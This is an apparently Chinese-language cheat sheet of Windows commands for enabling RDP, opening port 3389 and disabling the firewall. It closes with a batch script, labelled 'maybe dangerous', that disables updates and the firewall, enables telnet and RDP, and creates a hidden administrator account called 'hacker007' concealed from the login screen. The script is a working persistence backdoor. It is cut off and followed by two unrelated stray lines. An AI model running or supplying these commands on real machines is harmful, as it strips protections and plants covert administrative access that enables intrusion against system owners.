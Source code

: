# 开启RDP
通过命令行修改注册表。

## 开启RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

## 关闭RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

## 查询fDenyTSConnections值   0表示RDP开启    1表示RDP关闭
`reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections`

# RDP端口

## 查询rdp端口号
`reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber`

#防火墙相关 Netsh AdvFirewall.aspx)

## 防火墙状态
`netsh advfirewall monitor show firewall`

## 允许访问3389端口
`netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389`

## 关闭防火墙
`netsh firewall set opmode mode=disable`

# 开启远程协助
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f`

# 其它

## 从进程中查找rdp进程
`tasklist  /svc | find "TermService"`
## 根据pid（1316）查询端口号
`netstat -ano | find "1316"`

## 脚本(maybe dangerous) <未实际使用，仅供参考>

```

@echo off

REM ****************
REM Disable off "AUTO UPDATE"
REM ****************
sc config wuauserv start= disabled
net stop wuauserv

REM ****************
REM Disable windows xp Firewall
REM ****************
netsh firewall set opmode disable

REM ****************
REM Enable TELNET
REM ****************
sc config tlntsvr start= auto
net start telnet

REM ****************
REM Enable Remote Desktop
REM ****************
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

REM ***************
REM Create a HIDDEN USER usr= hack007, pass= dani
REM ***************
net user hacker007 dani /add
net localgroup "Administrators" /add hacker007
net localgroup "Users" /del hacker007
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hacker007 /t REG_DWORD /d 0 /f
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v dontdisplaylastusername /t REG_DWORD /d 1 /f
MacOS - SIP (System Integrity Protection) 系统集成保护
Pandoc | a universal document converter
```